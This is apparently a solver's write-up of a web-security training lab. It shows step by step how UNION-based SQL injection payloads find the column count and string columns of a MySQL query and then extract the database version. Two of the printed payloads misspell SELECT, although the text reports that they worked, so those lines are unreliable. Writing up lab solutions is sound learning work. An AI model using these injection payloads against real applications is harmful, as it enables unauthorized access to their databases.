

### SQL injection attack, querying the database type and version on MySQL and Microsoft : PRACTITIONER

---

First need to identify the type of database. Trying the normal `'--` payload doesn't work.




Trying the other comment technique with a space after the double dash.
```
'-- -
```
- Since trailing spaces are removed, we need to add a dummy character in the end to keep the space.


> Now we know that it is a MySQL database.

We get the number of columns in the output query using the normal `NULL` test.
```
' UNION SELECT NULL, NULL -- -
```
- And it works, therefore, there are only 2 columns in the output query.

Then, to output the database version, we know it is of type string. Therefore, we need to check which columns are of type string.
```
' UNION SECECT 'a', NULL-- -
' UNION SELECT NULL, 'a' -- -
```
- They both work, hence both of these columns are text type string.

To output the database version, use the payload:
```
' UNION SECECT @@version, NULL-- -
```
> And the version is output as expected in a new row.


---
